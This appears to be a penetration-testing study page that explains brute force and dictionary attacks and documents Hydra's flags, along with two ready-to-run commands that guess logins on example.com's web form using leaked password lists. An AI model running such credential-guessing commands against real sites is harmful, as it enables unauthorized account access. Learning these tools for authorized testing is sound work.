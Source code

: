 [Home](./README.md)

# Brute Force Attacks

**Brute force attacks** are attacks where an attacker tries all possible combinations of usernames and passwords until the correct one is found.

**Dictionary attacks** are attacks where an attacker tries a pre-defined set of usernames and passwords until the correct one is found.

Often it isn't practical to do brute force attack and that's why dictionary attacks are used instead.

## Table of Contents

<!-- TOC -->

- [Brute Force Attacks](#brute-force-attacks)
  - [Table of Contents](#table-of-contents)
  - [Hydra](#hydra)
  - [Wpscan](#wpscan)

<!-- /TOC -->

## [Hydra](#table-of-contents)
Hydra is a tool for doing dictionary attacks on websites.

If an http form prevents default and submits via javascript then hydra won't work.

`sudo hydra [-l Login|-L File] [-p PASS|-P File] [-u][-f][IP Address|Domain name] [-s Port] [Module] [url]:[form parameters]:[condition string]`

| Flags    | Description                                                  |
|----------|--------------------------------------------------------------|
| -l Login | Login name                                                   |
| -L File  | File of logins to use                                        |
| -p Pass  | Password to use                                              |
| -P File  | File of passwords to use                                     |
| -u       | Try every username for each password                         |
| -f       | Stop trying to find passwords once the first match is found. |
| Module   | A Module is a service to attack. Ex: http-post-form, mysql5, ssh, etc          |
| -s Port  | Different from the default port.                             |

| Port name                   | Default port |
|-----------------------------|--------------|
| FTP(File transfer protocol) | 21           |
| SSH(Secure shell)           | 22           |
| HTTP                        | 80           |
| HTTPS                       | 443          |

The **form parameters** are the parameters sent via the url when the form submits.

The **condition string** tells hydra when to stop trying passwords or to continue trying passwords.
  - If you want to define something when the login is successful use `:F=<`. This could be the login form itself.
  - If you want to define something when the login fails use `:`. This could be the error message when the login fails.

^USER^ is the username given by hydra.

^PASS^ is the password given by hydra.

Example:
```
// When condition string is when the login fails:
  sudo hydra -L ./SecLists/Usernames/top-usernames-shortlist.txt -P ./SecLists/Passwords/Leaked-Databases/rockyou-75.txt -u -f example.com http-post-form "/path:user=^USER^&password=^PASS^:Invalid credentials"
// When condition string is when the login was successful:
  sudo hydra -L ./SecLists/Usernames/top-usernames-shortlist.txt -P ./SecLists/Passwords/Leaked-Databases/rockyou-75.txt -u -f example.com http-post-form "/path:user=^USER^&password=^PASS^:F=<form name='login'"
```

## [Wpscan](#table-of-contents)